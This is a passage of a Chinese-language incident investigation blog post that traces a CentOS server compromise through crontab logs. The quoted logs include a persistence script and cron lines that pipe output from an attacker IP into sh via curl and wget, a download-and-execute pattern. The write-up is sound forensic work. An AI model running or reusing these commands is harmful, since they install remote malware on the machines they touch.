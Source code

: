 首先，他可能去掉了一些 upx 识别自己压缩过的特征字符串，不过这个可以自己新建一个 upx 文件把内容复制过来。

其次，我不知道他是哪一种压缩等级，不过这个可以枚举解决，只是可能会花点时间。

最重要的一点，又到了组会的时候了，我不能再摸鱼了，不然导师问我干了啥，我又啥也没干 :)

这个问题暂时就不搞了 :)



# 入侵溯源

那么对面是怎么打进来的呢？

centos7有记录 crontab 日志的地方，查看 crontab 的编辑记录就知道是在9号下午 12:55:01 首次编辑 crontab 的

```
[root@localhost log]# cat cron*|grep RELOAD
Jul 12 12:38:01 localhost crond[12721]: (root) RELOAD (/var/spool/cron/root)
Jul 12 15:08:01 localhost crond[22892]: (root) RELOAD (/var/spool/cron/root)
Jul 12 15:34:01 localhost crond[25783]: (root) RELOAD (/var/spool/cron/root)
Jul  9 12:55:01 localhost crond[2554]: (root) RELOAD (/var/spool/cron/root)
Jul  9 14:30:01 localhost crond[15227]: (root) RELOAD (/var/spool/cron/root)
Jul  9 15:37:01 localhost crond[24166]: (root) RELOAD (/var/spool/cron/root)

```

那么，从`2021.6.13` 开始，到`2021.7.12`，执行的crontab的记录再反复过滤，运用人工的启发式搜索算法 :)

![](https://static.scuseek.com/20210712193241.png)

```
Jul 12 10:29:01 localhost CROND[4295]: (root) CMD (/opt/systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)Jul 12 11:29:01 localhost CROND[8070]: (root) CMD (/opt/systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul 12 12:05:01 localhost CROND[10604]: (root) CMD (/root/.systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul 12 12:29:01 localhost CROND[12158]: (root) CMD (/opt/systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul 12 13:05:01 localhost CROND[14585]: (root) CMD (/root/.systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul 12 14:05:01 localhost CROND[18502]: (root) CMD (/root/.systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul 12 14:29:01 localhost CROND[20237]: (root) CMD (/opt/systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul 12 15:05:01 localhost CROND[22744]: (root) CMD (/root/.systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul 12 15:07:13 localhost crontab[22899]: (root) BEGIN EDIT (root)
Jul 12 15:07:17 localhost crontab[22899]: (root) END EDIT (root)
Jul 12 15:29:01 localhost CROND[24501]: (root) CMD (/opt/systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul 12 15:46:14 localhost crontab[28007]: (root) BEGIN EDIT (root)
Jul 12 15:46:30 localhost crontab[28152]: (root) BEGIN EDIT (root)
Jul 12 15:46:33 localhost crontab[28152]: (root) END EDIT (root)
Jun 15 03:42:01 localhost anacron[24559]: Job `cron.weekly' started
Jun 22 03:00:01 localhost anacron[7132]: Job `cron.weekly' started
Jun 22 03:01:01 localhost anacron[7216]: Job `cron.monthly' locked by another anacron - skipping
Jun 22 03:20:01 localhost anacron[7132]: Job `cron.monthly' started
Jun 29 03:29:01 localhost anacron[31965]: Job `cron.weekly' started
Jul  6 03:42:01 localhost anacron[20977]: Job `cron.weekly' started
Jul  9 12:48:01 localhost crond[723]: (CRON) bad minute (/etc/cron.d/systemdd)
Jul  9 12:48:01 localhost crond[723]: (CRON) bad minute (/etc/cron.d/systemdd)
Jul  9 12:48:01 localhost crond[723]: (CRON) bad minute (/etc/cron.d/systemdd)
Jul  9 12:48:01 localhost CROND[388]: (root) CMD (curl -fsS 139.59.150.7:443/rl|sh)
Jul  9 12:48:01 localhost CROND[389]: (root) CMD (wget -qO- 139.59.150.7:443/rl|sh)
Jul  9 12:48:02 localhost CROND[384]: (root) CMDOUT (sh: line 1: XRANDOM: command not found)
Jul  9 12:48:02 localhost CROND[383]: (root) CMDOUT (sh: line 1: XRANDOM: command not found)
```